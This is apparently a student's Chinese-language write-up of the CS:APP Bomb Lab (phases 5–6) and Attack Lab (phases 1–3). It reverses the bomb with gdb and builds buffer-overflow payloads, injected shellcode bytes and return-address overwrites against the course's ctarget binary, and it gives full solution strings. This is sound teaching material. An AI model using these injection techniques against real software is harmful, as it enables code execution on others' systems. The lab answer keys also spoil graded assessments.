    0x0000000000401096 <+52>:    and    $0xf,%edx           # 保留字符的低4位 (mask with 0xF)
    0x0000000000401099 <+55>:    movzbl 0x4024b0(%rdx),%edx # 查表转换：使用低4位作为索引查找转换表
    0x00000000004010a0 <+62>:    mov    %dl,0x10(%rsp,%rax,1) # 存储转换后的字符到栈上的缓冲区, %rsp + (%rax × 1) + 0x10 
    0x00000000004010a4 <+66>:    add    $0x1,%rax           # 计数器 +1
    0x00000000004010a8 <+70>:    cmp    $0x6,%rax           # 检查是否处理完6个字符
    0x00000000004010ac <+74>:    jne    0x40108b <phase_5+41> # 未处理完则继续循环
    0x00000000004010ae <+76>:    movb   $0x0,0x16(%rsp)     # 在转换后的字符串末尾添加 null 终止符
    0x00000000004010b3 <+81>:    mov    $0x40245e,%esi      # 设置src字符串指针（预设的目标字符串）
    0x00000000004010b8 <+86>:    lea    0x10(%rsp),%rdi     # 设置dst字符串指针（转换后的字符串）
    0x00000000004010bd <+91>:    call   0x401338 <strings_not_equal> # 比较两个字符串
    0x00000000004010c2 <+96>:    test   %eax,%eax               # 检查比较结果是否为0（相等）
    0x00000000004010c4 <+98>:    je     0x4010d9 <phase_5+119>  # 字符串相等则通过验证
    0x00000000004010c6 <+100>:   call   0x40143a <explode_bomb> # 字符串不相等，引爆炸弹
    0x00000000004010cb <+105>:   nopl   0x0(%rax,%rax,1)
    0x00000000004010d0 <+110>:   jmp    0x4010d9 <phase_5+119>
    0x00000000004010d2 <+112>:   mov    $0x0,%eax # == 核心: 字符串转换循环 ==, 初始化计数器 eax = 0
    0x00000000004010d7 <+117>:   jmp    0x40108b <phase_5+41>  # 跳转到循环开始
    0x00000000004010d9 <+119>:   mov    0x18(%rsp),%rax        # 恢复栈金丝雀值
    0x00000000004010de <+124>:   xor    %fs:0x28,%rax          # 检查栈是否被破坏
    0x00000000004010e7 <+133>:   je     0x4010ee <phase_5+140> # 栈未被破坏则继续
    0x00000000004010e9 <+135>:   call   0x400b30 <__stack_chk_fail@plt> # 栈被破坏，报错
    0x00000000004010ee <+140>:   add    $0x20,%rsp # 释放栈空间
    0x00000000004010f2 <+144>:   pop    %rbx       # 恢复 rbx 寄存器
    0x00000000004010f3 <+145>:   ret               # 返回
    End of assembler dump.
    ```

    因此，`phase_5` 函数实现了一个基于查表的字符串转换与验证系统，具体功能如下：
    
    - 输入验证：要求用户输入一个长度为6的字符串
    - 字符转换处理：对输入字符串的每个字符进行以下处理：

        - 提取字符ASCII码的低4位（通过 and $0xf 操作）
        - 使用这4位作为索引，从转换表中查找对应的字符
        - 将转换后的字符存入栈上的缓冲区

    - 字符串比较验证：在转换完成后，添加字符串结束符 '\0'，然后与预设的目标字符串 "flyers" 进行比较

        - 如果两个字符串完全匹配，则通过验证
        - 否则，引爆炸弹

    -   栈保护机制：使用栈金丝雀（Stack Canary）技术防止栈溢出攻击

    查看预设的目标字符串和转换表的内容：

    ```bash
    (gdb) x/s 0x40245e
    0x40245e:       "flyers"
    (gdb) x/s 0x4024b0 
    0x4024b0 <array.3449>:  "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
    ```

    转换表索引分析：转换表的前16个字符（索引0-15）如下：

    ```text
    索引: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
    字符: m a d u i e r s n f  o  t  v  b  y  l
    ```

    逆向推导输入字符：

    - 目标字符串 "flyers" 中每个字符在转换表中的索引：
        - 'f' → 索引9
        - 'l' → 索引15
        - 'y' → 索引14
        - 'e' → 索引5
        - 'r' → 索引6
        - 's' → 索引7

    - 我们需要6个字符，其ASCII码的低4位分别等于上述索引值
    - 选择可打印字符，得到输入字符串为：`9OneVg`
        - '9' (ASCII 0x39)：低4位为9
        - 'O' (ASCII 0x4f)：低4位为15
        - 'n' (ASCII 0x6e)：低4位为14
        - 'e' (ASCII 0x65)：低4位为5
        - 'V' (ASCII 0x56)：低4位为6
        - 'g' (ASCII 0x67)：低4位为7

    因此，输入字符串 `9OneVg` 符合验证要求，能够通过 `phase_5` 函数的验证。

    !!! note "%fs 段寄存器"

        fs 段寄存器是一个特殊的寄存器，它的值是由操作系统决定的，而不是由程序决定的，所以它的值是不会被修改的，这样就可以防止被恶意修改。

7. ### Phase 6

    ```bash
    (gdb) disas
    Dump of assembler code for function phase_6:
    => 0x00000000004010f4 <+0>:     push   %r14 # 保存5个寄存器的值，为函数执行准备栈帧
    0x00000000004010f6 <+2>:     push   %r13
    0x00000000004010f8 <+4>:     push   %r12
    0x00000000004010fa <+6>:     push   %rbp
    0x00000000004010fb <+7>:     push   %rbx
    0x00000000004010fc <+8>:     sub    $0x50,%rsp  # 分配80字节的栈空间
    0x0000000000401100 <+12>:    mov    %rsp,%r13
    0x0000000000401103 <+15>:    mov    %rsp,%rsi   # 设置rsi为read_six_numbers函数的参数（输入缓冲区地址）
    0x0000000000401106 <+18>:    call   0x40145c <read_six_numbers>
    0x000000000040110b <+23>:    mov    %rsp,%r14
    0x000000000040110e <+26>:    mov    $0x0,%r12d  # 初始化计数器r12d为0
    0x0000000000401114 <+32>:    mov    %r13,%rbp   # 将当前检查的元素地址保存到rbp
    0x0000000000401117 <+35>:    mov    0x0(%r13),%eax # 取出当前要检查的元素值到eax
    0x000000000040111b <+39>:    sub    $0x1,%eax   # 将元素值减1（用于范围检查）
    0x000000000040111e <+42>:    cmp    $0x5,%eax   # == 范围检查 ==, 比较减1后的值是否<=5
    0x0000000000401121 <+45>:    jbe    0x401128 <phase_6+52>   # 如果值在1-6范围内，跳转到+52
    0x0000000000401123 <+47>:    call   0x40143a <explode_bomb> # 否则引爆炸弹
    0x0000000000401128 <+52>:    add    $0x1,%r12d  # == 唯一性检查 ==, 计数器r12d加1
    0x000000000040112c <+56>:    cmp    $0x6,%r12d  # 检查是否已经处理了6个元素
    0x0000000000401130 <+60>:    je     0x401153 <phase_6+95> # 如果是，跳转到数值转换阶段
    0x0000000000401132 <+62>:    mov    %r12d,%ebx # 设置ebx为当前元素的索引
    0x0000000000401135 <+65>:    movslq %ebx,%rax  # 将32位ebx符号扩展为64位rax
    0x0000000000401138 <+68>:    mov    (%rsp,%rax,4),%eax # 根据索引取出后续元素的值
    0x000000000040113b <+71>:    cmp    %eax,0x0(%rbp)     # 比较当前元素与后续元素是否相同
    0x000000000040113e <+74>:    jne    0x401145 <phase_6+81>   # 如果不相同，继续检查下一个
    0x0000000000401140 <+76>:    call   0x40143a <explode_bomb> # 如果相同，引爆炸弹
    0x0000000000401145 <+81>:    add    $0x1,%ebx  # 索引ebx加1，检查下一个后续元素
    0x0000000000401148 <+84>:    cmp    $0x5,%ebx  # 检查是否已经比较到最后一个元素
    0x000000000040114b <+87>:    jle    0x401135 <phase_6+65> # 如果没有，继续比较
    0x000000000040114d <+89>:    add    $0x4,%r13             # r13指向下一个要检查的元素
    0x0000000000401151 <+93>:    jmp    0x401114 <phase_6+32> # 跳回，继续检查下一个元素
    0x0000000000401153 <+95>:    lea    0x18(%rsp),%rsi # == 数值转换阶段 ==, rsi指向输入数组结束位置+4（即6个整数后的位置）
    0x0000000000401158 <+100>:   mov    %r14,%rax # rax指向输入数组的起始位置, 记得<+23>:    mov    %rsp,%r14吗？
    0x000000000040115b <+103>:   mov    $0x7,%ecx   # ecx=7，用于数值转换
    0x0000000000401160 <+108>:   mov    %ecx,%edx   # edx=7
    0x0000000000401162 <+110>:   sub    (%rax),%edx # edx=7-当前元素值
    0x0000000000401164 <+112>:   mov    %edx,(%rax) # 将转换后的值存回原位置
    0x0000000000401166 <+114>:   add    $0x4,%rax   # rax指向下一个元素
    0x000000000040116a <+118>:   cmp    %rsi,%rax   # 检查是否已经转换了所有6个元素
    0x000000000040116d <+121>:   jne    0x401160 <phase_6+108> # 如果没有，继续转换
    0x000000000040116f <+123>:   mov    $0x0,%esi              # 初始化esi为0，用于遍历转换后的数组
    0x0000000000401174 <+128>:   jmp    0x401197 <phase_6+163> # 跳转到链表节点查找的主逻辑
    0x0000000000401176 <+130>:   mov    0x8(%rdx),%rdx  # == 链表遍历逻辑 ==, rdx=当前节点的next指针
    0x000000000040117a <+134>:   add    $0x1,%eax   # eax计数器加1
    0x000000000040117d <+137>:   cmp    %ecx,%eax   # 比较计数器eax与目标值ecx
    0x000000000040117f <+139>:   jne    0x401176 <phase_6+130> # 如果不相等，继续遍历
    0x0000000000401181 <+141>:   jmp    0x401188 <phase_6+148> # 找到目标节点，跳转保存节点地址
    0x0000000000401183 <+143>:   mov    $0x6032d0,%edx         # edx指向链表的起始地址
    0x0000000000401188 <+148>:   mov    %rdx,0x20(%rsp,%rsi,2) # 将找到的节点地址保存到栈上的缓冲区
    0x000000000040118d <+153>:   add    $0x4,%rsi  # rsi加4，指向下一个保存位置
    0x0000000000401191 <+157>:   cmp    $0x18,%rsi # 检查是否已经处理了所有6个元素
    0x0000000000401195 <+161>:   je     0x4011ab <phase_6+183> # 如果是，跳转到链表重建阶段
    0x0000000000401197 <+163>:   mov    (%rsp,%rsi,1),%ecx     # == 链表节点查找阶段 ==, ecx=当前要处理的转换后的值，注意<123>处的代码已经将 rsi 置0了
    0x000000000040119a <+166>:   cmp    $0x1,%ecx              # 检查ecx是否小于等于1
    0x000000000040119d <+169>:   jle    0x401183 <phase_6+143> # 如果是，直接使用链表头节点
    0x000000000040119f <+171>:   mov    $0x1,%eax              # 初始化计数器eax为1
    0x00000000004011a4 <+176>:   mov    $0x6032d0,%edx         # edx指向链表的起始地址
    0x00000000004011a9 <+181>:   jmp    0x401176 <phase_6+130> # 跳转到链表遍历逻辑
    0x00000000004011ab <+183>:   mov    0x20(%rsp),%rbx  # == 链表重建阶段 ==, rbx指向第一个节点（链表头）
    0x00000000004011b0 <+188>:   lea    0x28(%rsp),%rax  # rax指向第二个节点的地址
    0x00000000004011b5 <+193>:   lea    0x50(%rsp),%rsi  # rsi指向所有节点地址的结束位置
    0x00000000004011ba <+198>:   mov    %rbx,%rcx      # rcx=当前节点
    0x00000000004011bd <+201>:   mov    (%rax),%rdx    # rdx=下一个节点的地址
    0x00000000004011c0 <+204>:   mov    %rdx,0x8(%rcx) # 设置当前节点的next指针指向下一个节点
    0x00000000004011c4 <+208>:   add    $0x8,%rax  # rax指向下一个节点地址
    0x00000000004011c8 <+212>:   cmp    %rsi,%rax  # 检查是否已经链接了所有节点
    0x00000000004011cb <+215>:   je     0x4011d2 <phase_6+222> # 如果是，跳转到设置链表尾
    0x00000000004011cd <+217>:   mov    %rdx,%rcx  # rcx=下一个节点，继续链接
    0x00000000004011d0 <+220>:   jmp    0x4011bd <phase_6+201> # 继续链接下一个节点
    0x00000000004011d2 <+222>:   movq   $0x0,0x8(%rdx) # 设置链表最后一个节点的next指针为NULL
    0x00000000004011da <+230>:   mov    $0x5,%ebp      # == 链表验证阶段 ==, 设置比较计数器为5（需要比较5次）
    0x00000000004011df <+235>:   mov    0x8(%rbx),%rax # rax指向下一个节点
    0x00000000004011e3 <+239>:   mov    (%rax),%eax    # eax=下一个节点的值
    0x00000000004011e5 <+241>:   cmp    %eax,(%rbx)    # 比较当前节点和下一个节点的值
    0x00000000004011e7 <+243>:   jge    0x4011ee <phase_6+250>  # 如果当前节点值大于等于下一个节点值，继续
    0x00000000004011e9 <+245>:   call   0x40143a <explode_bomb> # 否则引爆炸弹（链表不是降序排列）
    0x00000000004011ee <+250>:   mov    0x8(%rbx),%rbx  # rbx指向下一个节点
    0x00000000004011f2 <+254>:   sub    $0x1,%ebp       # 比较计数器减1
    0x00000000004011f5 <+257>:   jne    0x4011df <phase_6+235> # 如果还没比较完5次，继续比较
    0x00000000004011f7 <+259>:   add    $0x50,%rsp  # 释放栈空间
    0x00000000004011fb <+263>:   pop    %rbx        # 恢复寄存器的值
    0x00000000004011fc <+264>:   pop    %rbp
    0x00000000004011fd <+265>:   pop    %r12
    0x00000000004011ff <+267>:   pop    %r13
    0x0000000000401201 <+269>:   pop    %r14
    0x0000000000401203 <+271>:   ret
    End of assembler dump.
    ```

    详细阅读代码可知，这段代码的作用是：

    - 栈帧设置与输入读取：保存寄存器状态，分配栈空间，读取6个整数输入
    - 输入验证阶段：
        - 范围检查：确保每个输入值在1-6之间
        - 唯一性检查：确保6个输入值互不相同
    - 数值转换阶段：将每个输入值x转换为7-x
    - 链表节点查找阶段：根据转换后的值从链表中找到对应的节点
    - 链表重建阶段：按照用户输入的顺序重新链接这些节点
    - 链表验证阶段：确保重建后的链表节点值按降序排列
    - 函数返回与栈帧清理：恢复寄存器状态，释放栈空间，返回

    现在sol.txt里随意输入一组6个互不相同的在1-6之间的整数，例如：2 1 3 4 6 5，然后开始debug：

    ```bash
    Linux$ gdb bomb
    Welcome to my fiendish little bomb. You have 6 phases with
    which to blow yourself up. Have a nice day!
    Phase 1 defused. How about the next one?
    That's number 2.  Keep going!
    Halfway there!
    So you got that one.  Try this one.
    Good work!  On to the next...

    Breakpoint 2, 0x00000000004010f4 in phase_6 ()
    (gdb) b *(phase_6+176)          # 查看 0x6032d0 处的链表
    Breakpoint 4 at 0x4011a4
    (gdb) c
    (gdb) x/24xw 0x6032d0
    0x6032d0 <node1>:       0x0000014c      0x00000001      0x006032e0      0x00000000
    0x6032e0 <node2>:       0x000000a8      0x00000002      0x006032f0      0x00000000
    0x6032f0 <node3>:       0x0000039c      0x00000003      0x00603300      0x00000000
    0x603300 <node4>:       0x000002b3      0x00000004      0x00603310      0x00000000
    0x603310 <node5>:       0x000001dd      0x00000005      0x00603320      0x00000000
    0x603320 <node6>:       0x000001bb      0x00000006      0x00000000      0x00000000
    (gdb) x/24d 0x6032d0
    0x6032d0 <node1>:       332     1       6304480 0
    0x6032e0 <node2>:       168     2       6304496 0
    0x6032f0 <node3>:       924     3       6304512 0
    0x603300 <node4>:       691     4       6304528 0
    0x603310 <node5>:       477     5       6304544 0
    0x603320 <node6>:       443     6       0       0
    ```

    从这一段可以看出，这个链表的每个元素大概是这样的：

    ```bash
    (gdb) x/24xw 0x6032d0
    0x6032d0 <node1>:       0x0000014c      0x00000001      0x006032e0      0x00000000
    0x6032e0 <node2>:       0x000000a8      0x00000002      0x006032f0      0x00000000
    0x6032f0 <node3>:       0x0000039c      0x00000003      0x00603300      0x00000000
    0x603300 <node4>:       0x000002b3      0x00000004      0x00603310      0x00000000
    0x603310 <node5>:       0x000001dd      0x00000005      0x00603320      0x00000000
    0x603320 <node6>:       0x000001bb      0x00000006      0x00000000      0x00000000
    ```

    ```C
    struct node 
    {
        int value;
        int order;
        struct node *next;
    };
    ```

    因此，phase_6的正确输入是：4 3 2 1 6 5，这样经过 7 - x 后变成 3 4 5 6 1 2，符合链表降序排列的要求（即 924 691 477 443 332 168）。


    至此，所有阶段都已成功完成：

    ```bash
    Linux$ ./bomb 
    Welcome to my fiendish little bomb. You have 6 phases with
    which to blow yourself up. Have a nice day!
    Border relations with Canada have never been better.
    Phase 1 defused. How about the next one?
    1 2 4 8 16 32
    That's number 2.  Keep going!
    0 207
    Halfway there!
    7 0
    So you got that one.  Try this one.
    9OneVg
    Good work!  On to the next...
    4 3 2 1 6 5
    Congratulations! You've defused the bomb!
    ```

## Attack Lab

1. 每个文件的作用：

    - ctarget: 用来做代码注入(Code injection) 攻击的程序
    - rtarget: 用来做 ROP (Return-oriented programming) 攻击的程序
    - cookie.txt: 一个 16 进制代码，用来作为攻击的标识符
    - farm.c: 用来找寻 gadget 的源文件
    - hex2raw: 用来生成攻击字符串的程序

    具体有 5 个任务，如下：

    | Phase | Program  | Level | Method | Function | Points |
    | ----- | -------- | ----- | ------ | -------- | ------ |
    | 1     | CTARGET  | 1     | CI     | touch1   | 10     |
    | 2     | CTARGET  | 2     | CI     | touch2   | 25     |
    | 3     | CTARGET  | 3     | CI     | touch3   | 25     |
    | 4     | RTARGET  | 2     | ROP    | touch2   | 35     |
    | 5     | RTARGET  | 3     | ROP    | touch3   | 5      |

2. ### Phase 1

    这一关中我们暂时还不需要注入新的代码，只需要让程序重定向调用某个方法就好。`ctarget` 的正常流程是:

    ```C
    void test() 
    {
        int val;
        val = getbuf();
        printf("NO explit.  Getbuf returned 0x%x\n", val);
    }
    ```

    ```bash
    Linux$ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:abc
    No exploit.  Getbuf returned 0x1
    Normal return
    ```

    ```bash
    Linux$ ./ctarget -h
    Usage: [-hq] ./ctarget -i <infile> 
    -h          Print help information
    -q          Don't submit result to server
    -i <infile> Input file
    ```

    我们要做的是调用程序中的另一个函数 `touch1`：

    ```C
    void touch1() 
    {
        vlevel = 1;
        printf("Touch!: You called touch1()\n");
        validate(1);
        exit(0);
    }
    ```

    反编译 `ctarget` 成汇编代码：`objdump -d ctarget > ctarget.asm`，检索 `getbuf`，代码如下：

    ```asm
    00000000004017a8 <getbuf>:
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
    4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	ret
    4017be:	90                   	nop
    4017bf:	90                   	nop
    ```

    可以看到这里把 `%rsp` 移动了 0x28(40) 位，也就是说，我们的缓冲区有 40 位，再上面的四位就是原来正常需要返回到 test 的返回地址，我们要做的就是利用缓冲区溢出把这个返回地址改掉。

    于是我们继续搜索，来看看 touch1 在哪里：

    ```asm
    00000000004017c0 <touch1>:
    4017c0:	48 83 ec 08          	sub    $0x8,%rsp
    4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
    ```

    可以看到地址在 0x4017c0 这里，但是我们要凑够 64 位，就是 0x00000000 004017c0，于是我们需要输入的字符串就可以是这样：

    ```text
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00
    c0 17 40 00 00 00 00 00
    ```

    前四十位是啥都不重要，后面按照 little endian 的规则填上地址就好，这样就改写了属于原来的返回地址。注意可以查看到我们是 64 位系统：

    ```bash
    (gdb) show architecture
    The target architecture is set to "auto" (currently "i386:x86-64").
    ```
    
    接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > ans1.txt`，最后执行一下 `./ctarget -q -i ans1.txt`，就可以看到结果了：

    ```bash
    Linux$ ./ctarget -q -i ans1.txt
    Cookie: 0x59b997fa
    Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
    ```

3. ### Phase 2

    第二关中需要插入一小段代码，`ctarget` 中的 `touch2` 函数的 C 语言如下：

    ```C
    void touch2(unsigned val)
    {
        vlevel = 2;
        if (val == cookie)
        {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
        } 
        else 
        {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
        }
        exit(0);
    }
    ```

    根据代码就可以看出来，我们需要把自己的 cookie 作为参数传进去，这里需要把参数放到 `%rdi` 中，只使用 `ret` 来进行跳转。

    所以第一步，我们先来写需要注入的代码(文件 p2.s)：

    ```asm
    mov $0x59b997fa,%rdi # set my cookie as the first parameter
    push $0x4017ec       # push the address of touch2
    ret # 从栈中弹出一个地址，并跳转到该地址继续执行程序，从而实现函数调用的返回机制。
        # 即 ret == pop %rip
    ```

    这里首先把参数传入到 `%rdi` 寄存器中，然后把 `touch2` 函数的起始地址压入栈中，最后返回，这样就可以跳转到 `touch2`。然后转换成对应的机器码：

    ```bash
    gcc -c p2.s
    objdump -d p2.o > p2.byte
    ```

    得到 p2.byte 文件的内容是: (即上述三条指令的字节表示)

    ```asm
    
    p2.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
    0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
    7:	68 ec 17 40 00       	push   $0x4017ec
    c:	c3                   	ret
    ```

    `gdb ctarget` 开始调试，得到缓冲区是从 0x5561dc78 开始的:

    ```bash
    Linux$ gdb --args ./ctarget -q
    Reading symbols from ./ctarget...
    (gdb) b getbuf
    Breakpoint 1 at 0x4017a8: file buf.c, line 12.
    (gdb) r
    Starting program: /home/CSAPP/CSAPP-Lab/03-Attack-Lab/ctarget -q
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:12
    warning: 12     buf.c: No such file or directory
    (gdb) disas
    Dump of assembler code for function getbuf:
    => 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
    0x00000000004017ac <+4>:     mov    %rsp,%rdi
    0x00000000004017af <+7>:     call   0x401a40 <Gets>
    0x00000000004017b4 <+12>:    mov    $0x1,%eax
    0x00000000004017b9 <+17>:    add    $0x28,%rsp
    0x00000000004017bd <+21>:    ret
    End of assembler dump.
    (gdb) si
    14      in buf.c
    (gdb) disas
    Dump of assembler code for function getbuf:
    0x00000000004017a8 <+0>:     sub    $0x28,%rsp
    => 0x00000000004017ac <+4>:     mov    %rsp,%rdi
    0x00000000004017af <+7>:     call   0x401a40 <Gets>
    0x00000000004017b4 <+12>:    mov    $0x1,%eax
    0x00000000004017b9 <+17>:    add    $0x28,%rsp
    0x00000000004017bd <+21>:    ret
    End of assembler dump.
    (gdb) p $rsp
    $1 = (void *) 0x5561dc78
    ```

    这样我们就可以得到需要输入的字符串了(p2.txt)，也就是 getbuf 函数接收的用户的输入：

    ```text
    48 c7 c7 fa 97 b9 59 68 
    ec 17 40 00 c3 00 00 00
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    78 dc 61 55 00 00 00 00
    ```

    此时，输入字符串后的栈帧应该是这样的：

    

    逻辑如下：

    - getbuf接收完我们刚才构造的字符串后，执行ret指令 (也就是将test程序的栈顶的0x5561dc78弹出，并将其赋值给%rip)，然后 %rip 跳转到被我们改写的返回地址 0x5561dc78
    - 程序执行我们编写的代码，当再次执行ret后，从栈中弹出的就是我们压入的touch2函数的地址，成功跳转

    然后把字符串转换成字节码：`./hex2raw < p2.txt > ans2.txt`，执行命令 `./ctarget -q -i ans2.txt` 就可以看到完成第二阶段的提示了：

    ```bash
    Linux$ ./ctarget -q -i ans2.txt
    Cookie: 0x59b997fa
    Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 
    ```

4. ### Phase 3

    这一关和之前有点类似，只是需要传入一个字符串，所涉及的函数的 C 语言代码是：

    ```C
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];                  // 分配一个长度为 110 的字符数组
        char *s = cbuf + random() % 100; // 在这 110 长度的数组中，随机选择一个小于 100 的起始位置
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }

    void touch3(char *sval)
    {
        vlevel = 3;
        if (hexmatch(cookie, sval))
        {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        } 
        else 
        {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }
    ```

    也就是说，要把 cookie 转换成对应的字符串传进去。注意 `char *s = cbuf + random() % 100`，s的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。因此，考虑把cookie的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

    先查找`test`栈顶指针的位置：

    ```bash
    Linux$ gdb --args ./ctarget -q
    Reading symbols from ./ctarget...
    (gdb) b test                                          
    (gdb) r
    Starting program: /home/CSAPP/CSAPP-Lab/03-Attack-Lab/ctarget -q                                                
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    Cookie: 0x59b997fa

    Breakpoint 1, test () at visible.c:90
    warning: 90     visible.c: No such file or directory
    (gdb) disas
    Dump of assembler code for function test:
    => 0x0000000000401968 <+0>:     sub    $0x8,%rsp
    0x000000000040196c <+4>:     mov    $0x0,%eax
    0x0000000000401971 <+9>:     call   0x4017a8 <getbuf> # call == %rsp - 0x8, 并将返回地址0x401976压入栈中
    0x0000000000401976 <+14>:    mov    %eax,%edx         # 因此执行call后到了getbuf函数时，此时 %rsp = 0x5561dca0, x $rsp 结果是 0x00401976
    0x0000000000401978 <+16>:    mov    $0x403188,%esi
    0x000000000040197d <+21>:    mov    $0x1,%edi
    0x0000000000401982 <+26>:    mov    $0x0,%eax
    0x0000000000401987 <+31>:    call   0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:    add    $0x8,%rsp
    0x0000000000401990 <+40>:    ret
    End of assembler dump.
    (gdb) si
    92      in visible.c
    (gdb) disas
    Dump of assembler code for function test:
    0x0000000000401968 <+0>:     sub    $0x8,%rsp
    => 0x000000000040196c <+4>:     mov    $0x0,%eax
    0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
    0x0000000000401976 <+14>:    mov    %eax,%edx
    0x0000000000401978 <+16>:    mov    $0x403188,%esi
    0x000000000040197d <+21>:    mov    $0x1,%edi
    0x0000000000401982 <+26>:    mov    $0x0,%eax
    0x0000000000401987 <+31>:    call   0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:    add    $0x8,%rsp
    0x0000000000401990 <+40>:    ret
    End of assembler dump.
    (gdb) p $rsp
    $1 = (void *) 0x5561dca8
    (gdb) 
    ```

    `0x5561dca8`，这就是字符串存放的位置，也是调用`touch3`应该传入的参数，而`touch3`代码的地址为`0x4018fa`。从而得到代码：

    ```asm
    mov    $0x5561dca8,%rdi
    push   $0x4018fa
    ret
    ```

    字节级表示为：

    ```asm
    
    p3.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	push   $0x4018fa
    c:	c3                   	ret
    ```

    因此，我们期望的栈帧为：

    

    逻辑如下：

    - `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
